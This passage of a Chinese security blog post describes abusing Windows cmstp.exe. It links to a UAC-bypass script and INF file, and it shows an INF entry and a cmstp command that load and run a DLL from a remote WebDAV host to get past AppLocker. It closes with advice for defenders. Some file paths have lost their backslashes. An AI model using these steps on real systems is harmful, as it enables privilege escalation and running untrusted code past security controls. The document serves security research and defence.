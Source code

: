 现在有趣的是我们可以使用脚本中的sendkeys来自动提权。所有需要的东西我们都有了。

微软在过去已经采取了安全措施（[UIPI](https://en.wikipedia.org/wiki/User_Interface_Privilege_Isolation)）来阻止sendkeys攻击，因此我很惊讶这个还能起作用。我认为这有点酷啊。。。

我创建了一个简单的脚本：

[https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e#file-uacbypasscmstp-ps1](https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e#file-uacbypasscmstp-ps1)

我还编写了个预置的UACBypass.inf文件，因此你不需要按照上述步骤来安装CMAK：

[https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e#file-uacbypass-inf](https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e#file-uacbypass-inf)

我没有时间来逆向CMSTP以查看它是如何提权的，但是其他人可以进一步研究。如果我有时间我也会研究下。

<br>

**0x04从Webdav服务器实现加载DLL的步骤**

我还发现了你能从Webdav中加载DLL文件，并执行它们。这在一些场景中能用于绕过AppLocker。你能按照绕过UAC中的CMAK向导教程来完成这个。

你需要在INF文件中添加下面的内容（你能看到从磁盘加载的dll）：

```
[RegisterOCXSection]
 \10.10.10.10webdavAllTheThings.dll
```

[![](https://p5.ssl.qhimg.com/t01e152e1bd7d437875.png)](https://p5.ssl.qhimg.com/t01e152e1bd7d437875.png)

在你运行这个命令之前，你还需要CorpVPN.cmp和CorpVPN.cms，将它们放置于和INF文件同目录：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0142c2450ce53975fb.png)

当然你的DLL文件需要位于Webdav服务器上。

现在，你应该能运行下面的命令来加载DLL了：

```
cmstp.exe /ni /s c:cmstpCorpVPN.inf
```

注意，这将安装一个VPN配置，我还没发现其他更好的方式来加载dll。

AllTheThings.dll来自Casey Smith（[@Subtee](https://twitter.com/subTee)）的分享：

[https://github.com/subTee/AllTheThings](https://github.com/subTee/AllTheThings)

作为防御者，我开始研究CMSTP.exe，如果你开启了Device Guard/Applocker，我建议禁用CMSTP。（除非你需要依赖它来安装VPN连接）。
